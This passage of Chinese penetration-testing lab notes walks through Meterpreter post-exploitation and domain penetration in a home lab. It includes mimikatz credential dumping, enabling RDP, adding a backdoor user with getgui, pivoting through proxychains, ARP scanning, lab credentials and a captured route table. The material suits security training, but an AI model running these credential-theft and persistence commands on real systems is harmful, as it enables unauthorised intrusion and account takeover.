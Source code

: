 下面进行密码收集

```
load mimikatz 这是一个插件
msv 收集密码
kerberos 查看是不是有明文密码
run  getgui  -e 开启他的远程链接
增加用户run getgui -u moonsec -p moonsec
proxychains rdesktop -u Administrator -p 123456 192.168.111.132
```

## 六、域的搭建

参考链接:https://jingyan.baidu.com/article/19192ad8e1593ae53e5707be.html

```
域控2008：jsp，adminstrator  xxx123456.. 10.10.1.2
域的客户机2008：靶机 xxx333.. 10.10.1.4 192.168.43.225
域的客户机2003 xxx222.. 10.10.1.3
dcpromo.exe
```

配置域，创建用户

## 七、一次完整的域渗透

首先打通后门，进入他，然后提升一下权限。

域的简介：https://baike.baidu.com/item/windows%E5%9F%9F/1492318

```
查看一下网络 net view
进入shell 查看一下网络DNS等服务信息
run post/windows/gather/arp_scanner RHOSTS=10.10.10.0/24
DNS一般和主域是搭建在一起的
```

被控制的靶机的路由

```
IPv4 network routes
===================

    Subnet           Netmask          Gateway         Metric  Interface
    ------           -------          -------         ------  ---------
    0.0.0.0          0.0.0.0          192.168.43.183  10      13
    10.10.1.0        255.255.255.0    10.10.1.4       266     11
    10.10.1.4        255.255.255.255  10.10.1.4       266     11
    10.10.1.255      255.255.255.255  10.10.1.4       266     11
    127.0.0.0        255.0.0.0        127.0.0.1       306     1
    127.0.0.1        255.255.255.255  127.0.0.1       306     1
    127.255.255.255  255.255.255.255  127.0.0.1       306     1
    192.168.43.0     255.255.255.0    192.168.43.225  266     13
    192.168.43.225   255.255.255.255  192.168.43.225  266     13
    192.168.43.255   255.255.255.255  192.168.43.225  266     13
    224.0.0.0        240.0.0.0        127.0.0.1       306     1
    224.0.0.0        240.0.0.0        10.10.1.4       266     11
    224.0.0.0        240.0.0.0        192.168.43.225  266     13
    255.255.255.255  255.255.255.255  127.0.0.1       306     1
    255.255.255.255  255.255.255.255  10.10.1.4       266     11
    255.255.255.255  255.255.255.255  192.168.43.225  266     13
```
